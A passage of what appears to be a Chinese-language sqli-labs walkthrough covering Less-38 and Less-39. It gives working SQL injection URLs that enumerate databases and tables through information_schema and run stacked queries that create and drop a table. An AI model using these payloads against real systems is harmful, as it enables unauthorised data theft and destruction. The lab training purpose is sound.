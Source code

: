 
# Sqli-labs-Less-38
**查找注入点**<br />http://www.web.com/sql/Less-38/?id=1'<br />报错<br />![](https://img-blog.csdnimg.cn/2020072610171914.png#crop=0&crop=0&crop=1&crop=1&id=mP7Z9&originHeight=64&originWidth=1347&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**进行注释**<br />http://www.web.com/sql/Less-38/?id=1' --+<br />成功说明存在注入点<br />![](https://img-blog.csdnimg.cn/2020072610214927.png#crop=0&crop=0&crop=1&crop=1&id=IwETk&originHeight=121&originWidth=305&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-38/?id=1' order by 3--+<br />使用4时报错，使用3时正确，说明有3列<br />![](https://img-blog.csdnimg.cn/20200726102547606.png#crop=0&crop=0&crop=1&crop=1&id=C69aw&originHeight=43&originWidth=455&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-38/?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200726102702403.png#crop=0&crop=0&crop=1&crop=1&id=bpAEM&originHeight=136&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-38/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200726102813716.png#crop=0&crop=0&crop=1&crop=1&id=jJL0m&originHeight=141&originWidth=582&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用堆叠注入创建表**<br />http://www.web.com/sql/Less-38/?id=-1'; create table sqli38 like users;--+<br />没有显示返回<br />![](https://img-blog.csdnimg.cn/20200726103039506.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=SeoeS&originHeight=200&originWidth=1075&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看是否创建成功**<br />http://www.web.com/sql/Less-38/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200726103112963.png#crop=0&crop=0&crop=1&crop=1&id=QeH0I&originHeight=147&originWidth=689&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
成功

**删除创建的表**<br />http://www.web.com/sql/Less-38/?id=-1'; drop table sqli38;--+<br />![](https://img-blog.csdnimg.cn/20200726103349333.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=b0eCC&originHeight=229&originWidth=1092&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**没有回显，查看是否删除**<br />http://www.web.com/sql/Less-38/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />![](https://img-blog.csdnimg.cn/20200726103411166.png#crop=0&crop=0&crop=1&crop=1&id=pGChw&originHeight=165&originWidth=615&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**成功删除。**


# Sqli-labs-Less-39
![](https://img-blog.csdnimg.cn/20200726103748638.png#crop=0&crop=0&crop=1&crop=1&id=tBcbS&originHeight=84&originWidth=1062&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查找注入点**<br />http://www.web.com/sql/Less-39/?id=1'<br />报错，显示多了一个'说明在这里不需要包裹<br />![](https://img-blog.csdnimg.cn/20200726104053943.png#crop=0&crop=0&crop=1&crop=1&id=We7qa&originHeight=75&originWidth=1343&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看列数**<br />http://www.web.com/sql/Less-39/?id=1 order by 3--+<br />使用4时报错，使用3时正确，说明有3列<br />![](https://img-blog.csdnimg.cn/20200726104213365.png#crop=0&crop=0&crop=1&crop=1&id=QYt0v&originHeight=55&originWidth=455&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以下步骤与Sqli-labs-Less-38相同，不进行详细叙述**
